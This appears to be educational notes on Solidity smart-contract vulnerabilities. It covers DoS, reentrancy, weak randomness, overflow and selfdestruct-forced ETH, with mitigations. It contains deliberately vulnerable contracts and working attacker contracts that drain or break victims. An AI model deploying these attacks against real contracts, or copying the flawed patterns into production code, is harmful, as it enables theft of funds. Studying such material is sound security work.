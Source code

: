 ### Denial of Service: 
  It check for duplicates value but as the main array is long it will cost more gas.
  So assume in a lottery, the entrant fee depends on the number of people in the lottery.
  Now a hacker can call the function a million time using different accounts so no other player can join the lottery. 
  
```solidity
      // SPDX-License-Identifier: MIT
      pragma solidity 0.8.20;
      
      contract DoS {
          address[] entrants;
      
          function enter() public {
              // Check for duplicate entrants
              for (uint256 i; i < entrants.length; i++) {
                  if (entrants[i] == msg.sender) {
                      revert("You've already entered!");
                  }
              }
              entrants.push(msg.sender);
          }
      }
```

### Rentrancy Attack;

Here attacker will use `ReentrancyAttacker::receive()` to call the `ReentrancyVictim::withdrawBalance()` and in middle the `ReentrancyAttacker::receive()` will be called again. It will result in attacker gaining the eth from victim balance. It will keep going until the victim balance is 0.
It can be solved by simply moving the state change before the `ReentrancyVictim::withdrawBalance()` function. This is also known as CEI(check, effects, interaction). 

```solidity
      // SPDX-License-Identifier: MIT
      pragma solidity 0.8.20;
      contract ReentrancyVictim {
          mapping(address => uint256) public userBalance;
      
          function deposit() public payable {
              userBalance[msg.sender] += msg.value;
          }
      
          function withdrawBalance() public {
              uint256 balance = userBalance[msg.sender];
              // An external call and then a state change!
              // External call
              (bool success,) = msg.sender.call{value: balance}("");
              if (!success) {
                  revert();
              }
      
              // State change
              userBalance[msg.sender] = 0;
          }
      }
      
      contract ReentrancyAttacker {
          ReentrancyVictim victim;
      
          constructor(ReentrancyVictim _victim) {
              victim = _victim;
          }
      
          function attack() public payable {
              victim.deposit{value: 1 ether}();
              victim.withdrawBalance();
          }
      
          receive() external payable {
              if (address(victim).balance >= 1 ether) {
                  victim.withdrawBalance();
              }
          }
      }
```
### Weak Randomness Exploit

Here `WeakRandomness::msg.sender, block.prevrandao, block.timestamp` can be used to manipulate or guess the random number
 1. `block.timestamp`: miners can hold the transaction for a certain amount of sec to get the favourable timestamp.
 2. `block.prevrandao`: previously known as `block.difficulty` before the merge. It has biasability and predicatability issues.
 3. `msg.sender`: miner can mine the adress until they get the adress they want.

```solidity

      // SPDX-License-Identifier: MIT
      pragma solidity 0.8.20;
      
      // Inspired by https://github.com/crytic/slither/wiki/Detector-Documentation#weak-prng
      
      contract WeakRandomness {
          /*
           * @notice A fair random number generator
           */
          function getRandomNumber() external view returns (uint256) {
              uint256 randomNumber = uint256(keccak256(abi.encodePacked(msg.sender, block.prevrandao, block.timestamp)));
              return randomNumber;
          }
      }
      
      // prevrandao security considerations: https://eips.ethereum.org/EIPS/eip-4399

```
It can be mitigated using the Chainlink VRF and Commit reveal scheme

### Integer overflow:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

/*//////////////////////////////////////////////////////////////
                            OVERFLOW
//////////////////////////////////////////////////////////////*/

contract Overflow {
    uint8 public count;

    // uint8 has a max value of 255, so if we add 1 to 255, we get 0 if it's unchecked!
    // Versions prior to 0.8 of solidity also have this issue
    function increment(uint8 amount) public {
        unchecked {
            count = count + amount;
        }
    }
}

/*//////////////////////////////////////////////////////////////
                            UNDERFLOW
//////////////////////////////////////////////////////////////*/

contract Underflow {
    uint8 public count;

    // uint8 has a min value of 0, but if we subtract 1 from 0, we get 255 if it's unchecked!
    // Versions prior to 0.8 of solidity also have this issue
    function decrement() public {
        unchecked {
            count--;
        }
    }
}

/*//////////////////////////////////////////////////////////////
                            PRECISION LOSS
//////////////////////////////////////////////////////////////*/

contract PrecisionLoss {
    uint256 public moneyToSplitUp = 225;
    uint256 public users = 4;

    // This function will return 56, but we want it to return 56.25
    function shareMoney() public view returns (uint256) {
        return moneyToSplitUp / users;
    }
}

```
Overflow can be mitigated by using newer version of solidity and bigger uints

### Mishandling of ETH
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

contract SelfDestructMe {
    uint256 public totalDeposits;
    mapping(address => uint256) public deposits;

    function deposit() external payable {
        deposits[msg.sender] += msg.value;
        totalDeposits += msg.value;
    }

    function withdraw() external {
        /*
            Apparently the only way to deposit ETH in the contract is via the `deposit` function.
            If that were the case, this strict equality would always hold.
            But anyone can deposit ETH via selfdestruct, or by setting this contract as the target
            of a beacon chain withdrawal.
            (see last paragraph of this section
            https://eth2book.info/capella/part2/deposits-withdrawals/withdrawal-processing/#performing-withdrawals),
            regardless of the contract not having a `receive` function.

            If anybody deposits ETH that way, then the equality breaks and the contract is DoS'd.
            To fix it, the code could be changed to >= instead of ==. Which means that the available
            ETH balance should be _at least_ `totalDeposits`, which makes more sense.
        */
        assert(address(this).balance == totalDeposits); // bad

        uint256 amount = deposits[msg.sender];
        totalDeposits -= amount;
        deposits[msg.sender] = 0;

        payable(msg.sender).transfer(amount);
    }
}

contract AttackSelfDestructMe {
    SelfDestructMe target;

    constructor(SelfDestructMe _target) payable {
        target = _target;
    }

    function attack() external payable {
        selfdestruct(payable(address(target)));
    }
}
```
